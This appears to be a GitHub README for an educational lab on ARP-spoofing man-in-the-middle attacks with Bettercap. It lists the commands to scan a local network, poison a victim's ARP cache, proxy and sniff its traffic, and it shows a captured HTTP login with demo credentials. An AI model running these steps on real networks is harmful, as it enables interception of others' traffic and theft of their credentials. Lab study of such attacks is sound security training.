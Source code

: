 # ARP-MITM-Bettercap
> ⚠️ **Disclaimer**: This project is for educational purposes only. Do **not** perform these actions on networks you do not own or have explicit permission to test. Unauthorized access is illegal.

## LAB SET-UP
### 💻 Attacker Machine

**OS**: Kali Linux 2024.1  

**Tool Used**: Bettercap  

**IP Address**: 192.168.1.5  

**Role**: Perform ARP spoofing, sniff HTTP traffic

### 🖥️ Victim Machine

**OS**: Ubuntu or Windows 10   

**Browser**: Firefox / Chrome  

**IP Address**: 192.168.1.10  

**Role**: Target of the attack, visiting HTTP websites

### 🌐 Network Setup

**Type**: Bridged Adapter (VirtualBox)  

**Interface**: `eth0` (for attacker)  

**Same Local Network**: Yes ✅   

  Check your network  interface:  
  ```bash
  ip a
  ```
  Check your Default gateway:(victim)
  ```bash
  ip route
  ```
Install **Bettercap** if not already installed:

```bash
 sudo apt update
 sudo apt install bettercap
 ```

1. **Start Bettercap:**
    ```bash
    sudo bettercap -iface eth0
    ```

2. **Scan Network:**
    ```bash
    net.probe on
    ```
    ``` output
    192.168.1.0/24 > 192.168.1.5  » net.probe on
    [10:09:18] [sys.log] [inf] net.probe starting net.recon as a requirement for net.probe
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [sys.log] [inf] net.probe probing 256 addresses on 192.168.1.0/24
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [endpoint.new] endpoint fe80::1234:abcd:5678:90ef detected as **AA:BB:CC:DD:EE:01** (Generic Device Vendor)
    192.168.1.0/24 > 192.168.1.5  » [10:09:18] [endpoint.new] endpoint 192.168.1.10 detected as **AA:BB:CC:DD:EE:02** (Generic Device Vendor)
```

net.show
```
```output
192.168.1.0/24 > 192.168.1.5  » net.show

┌────────────────────────────┬────────────────────┬─────────────────┬──────────────────────────────────────────────┬───────┬───────┬──────────┐
│           IP ▴             │        MAC         │      Name       │                    Vendor                    │ Sent  │ Recvd │   Seen   │
├────────────────────────────┼────────────────────┼─────────────────┼──────────────────────────────────────────────┼───────┼───────┼──────────┤
│ 192.168.1.5                │ AA:BB:CC:11:22:33   │ eth0            │ PCS Systemtechnik GmbH                       │ 0 B   │ 0 B   │ 10:09:11 │
│ 192.168.1.13               │ DD:EE:FF:44:55:66   │ gateway         │                                              │ 695 B │ 477 B │ 10:09:11 │
│                            │                    │                 │                                              │       │       │          │
│ fe80::xxxx:xxxx:xxxx:xxxx  │ FF:AA:CC:77:88:99   │ LAPTOP-USER     │ CLOUD NETWORK TECHNOLOGY SINGAPORE PTE. LTD. │ 0 B   │ 0 B   │ 10:09:20 │
│ 192.168.1.10               │ 11:22:33:44:55:66   │                 │ PCS Systemtechnik GmbH                       │ 120 B │ 92 B  │ 10:09:20 │
└────────────────────────────┴────────────────────┴─────────────────┴──────────────────────────────────────────────┴───────┴───────┴──────────┘
```

3. **Set Victim IP:**
    ```bash
    set arp.spoof.targets 192.168.1.10
    ```

4. **Launch Attack:**
    ```bash
    arp.spoof on
    http.proxy on
    net.sniff on
    ```

5. **Ask the victim to visit a non-HTTPS site** (for demonstration):
    ```
    http://testphp.vulnweb.com/login.php
    ```

6. **Captured Output:**
    ```OUTPUT
    192.168.1.0/24 > 192.168.1.5  » [10:10:36] [net.sniff.http.request] http 192.168.1.10 POST testphp.vulnweb.com/userinfo.php                                                                                              POST /userinfo.php HTTP/1.1
          Host: testphp.vulnweb.com
          Origin: http://testphp.vulnweb.com
          Connection: keep-alive
          Upgrade-Insecure-Requests: 1
          Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
          Accept-Encoding: gzip, deflate
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 23
          Priority: u=0, i
          User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0
          Accept-Language: en-US,en;q=0.5
          Referer: http://testphp.vulnweb.com/login.php

          uname=demoUser&pass=demoPass

    ```
---

## 📄 License
MIT

